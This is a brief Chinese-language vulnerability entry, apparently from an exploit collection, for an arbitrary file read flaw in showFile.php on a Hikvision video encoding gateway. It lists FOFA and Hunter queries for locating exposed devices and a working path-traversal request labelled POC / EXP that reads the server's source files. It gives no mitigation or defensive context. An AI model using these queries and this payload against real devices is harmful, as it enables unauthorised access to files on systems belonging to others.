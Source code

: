 # HiKVISION 视频编码设备接入网关 showFile.php 任意文件读取漏洞

## 网络测绘

fofa: app="HIKVISION-视频编码设备接入网关"

hunter: app.name="Hikvision 海康威视视频编码设备接入网关"

## POC / EXP

```
/serverLog/showFile.php?fileName=../web/html/main.php
```